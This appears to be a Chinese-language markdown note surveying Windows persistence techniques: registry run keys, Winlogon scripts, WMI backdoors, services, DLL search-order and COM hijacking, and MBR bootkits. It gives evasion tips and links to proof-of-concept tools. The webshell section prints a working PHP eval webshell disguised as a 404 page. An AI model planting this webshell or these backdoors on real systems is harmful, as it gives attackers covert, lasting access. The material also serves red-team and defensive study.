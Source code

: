 <!-- TOC -->

- [1. 开机自启动](#1-开机自启动)
- [2. 用户登录时的自启动](#2-用户登录时的自启动)
- [3. 定时任务（schtasks、at）](#3-定时任务schtasksat)
- [4. WMI](#4-wmi)
- [5. webshell](#5-webshell)
- [6. 自启动服务](#6-自启动服务)
- [7. DLL加载顺序劫持](#7-dll加载顺序劫持)
    - [7.1. 正常加载顺序](#71-正常加载顺序)
    - [7.2. 安全加载顺序](#72-安全加载顺序)
    - [7.3. KnownDLL保护措施](#73-knowndll保护措施)
- [8. COM劫持](#8-com劫持)
    - [8.1. 参考资料](#81-参考资料)
- [9. Bootkit](#9-bootkit)
    - [9.1. 参考资料](#91-参考资料)
- [10. 启动型DLL注入（进程启动时会自动加载DLL）](#10-启动型dll注入进程启动时会自动加载dll)
- [11. 修改或者替换系统的二进制文件，并伪造签名](#11-修改或者替换系统的二进制文件并伪造签名)

<!-- /TOC -->
# 1. 开机自启动
* 注册表项：`HKEY_LOCAL_MACHINE\SOFTWARE\Microft\windows\currentversion\run`
* Startup文件夹
# 2. 用户登录时的自启动
* 在注册表路径：`HKCU\Environment\`创建字符串键值：`UserInitMprLogonScript`，键值设置为特定的脚本路径即可
* 修改`HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit`，修改为特定脚本、批处理路径
* 注册表`HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`下其他表项，甚至可以允许恶意代码在安全模式下加载
# 3. 定时任务（schtasks、at）
从任务计划程序中可以看到列表
# 4. WMI
WMI是微软基于Web的企业管理（WBEM）的实现版本，这是一项行业计划，旨在开发用于访问企业环境中管理信息的标准技术。主要与Powershell命令配合使用可以实现无文件攻击重要方式，具有良好的隐蔽性也是目前较为常用的持久化手段。WMI对象主要是执行一个WQL(WMI Query Language)的查询后，本地调用Powershell执行响应的代码由于没有文件保存在本地磁盘能够较好的免查杀。Black Hat 2015公布了一个WMIBackdoor的poc毕竟还是经典，在流行的powersploit与nishang框架里面也有相关的ps1文件。传送门：https://github.com/mattifestation/WMI_Backdoor
# 5. webshell
在指定的web服务器路径藏的很深的那种放置一个webshell，同时做好免杀后的shell往往比常规的系统后门更难被发现，这个操作很常规。
可以插入到网站自身的404页面中，注意 header要放在第一行,否则在利用的时候日志记录的不会是404
```html
<?php
    header('HTTP/1.1 404 Not Found');
    @eval($_GET["Error"]); // 一句话
?>
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html>
    <head>
        <title>404 Not Found</title>
    </head>
    <body>
        <h1>Not Found</h1>
        <p>The requested URL was not found on this server.</p>
    </body>
</html>
```
各类webshell种类比较多传送门：https://github.com/xl7dev/WebShell
# 6. 自启动服务
* 将自己的恶意的可执行文件注册成服务
* 调用系统进程如svchost加载dll文件运行服务

第二种方式相对隐蔽性较好由于系统进程的特殊性往往不敢轻易终止进程，由于此类均在PE文件或者其他类型文件在磁盘中容易被查杀，特殊处理过的除外。创建服务时最好加入一个已存在的服务组或者覆盖一个无关紧要的服务，新创建服务组容易被探测。
# 7. DLL加载顺序劫持
## 7.1. 正常加载顺序
DLL加载顺序如下：
* 加载应用程序的目录
* 当前目录（GetCurrentDirectory），chdir函数会更改此值
* 系统目录（GetSystemDirectory）
* 16位子系统的系统目录（.../Windows/System）
* Windows目录（GetWindowsDirectory）
* PATH环境变量目录
## 7.2. 安全加载顺序
如果启用了安全加载，则顺序为134526。
## 7.3. KnownDLL保护措施
`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs`里面列出了一些Dll文件，可以跳过DLL的加载过程直接从系统目录加载。另外有相关键`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\ExcludeFromKnownDlls`。
# 8. COM劫持
主要通过修改CLSID下的注册表键值，实现对CAccPropServicesClass和MMDeviceEnumerator劫持，而系统很多正常程序启动时需要调用这两个实例，所以，这就可以用作后门来使用，并且，该方法也能够绕过Autoruns对启动项的检测。
## 8.1. 参考资料
* https://www.gdatasoftware.com/blog/2014/10/23941-com-object-hijacking-the-discreet-way-of-persistence
* Powershell版本的POC：https://github.com/3gstudent/COM-Object-hijacking
# 9. Bootkit
MBR后门主要的思路是读取主引导记录和把分区表从主引导记录中复制出来。然后把自己的包含恶意二进制数据的主引导记录放到主引导扇区，并复制新的分区表到它。但是，并非只有分区表需要保留，还有原来的主引导记录也需要保存下来，MBR病毒复制原始主引导记录到其它64个未用到的扇区。到MBR病毒执行完自己的操作后在读取原始的主引导记录并跳到0x7c00处执行来引导开机，比如暗云系列木马。通过PCHunter也能够进行简单的MBR的异常判断，此类后门往往具有较大的实施难度病毒种类往往也较少。
## 9.1. 参考资料
* https://slab.qq.com/news/tech/1308.html
# 10. 启动型DLL注入（进程启动时会自动加载DLL）
[Windows进程注入技术](../恶意代码/Windows进程注入技术.md)
# 11. 修改或者替换系统的二进制文件，并伪造签名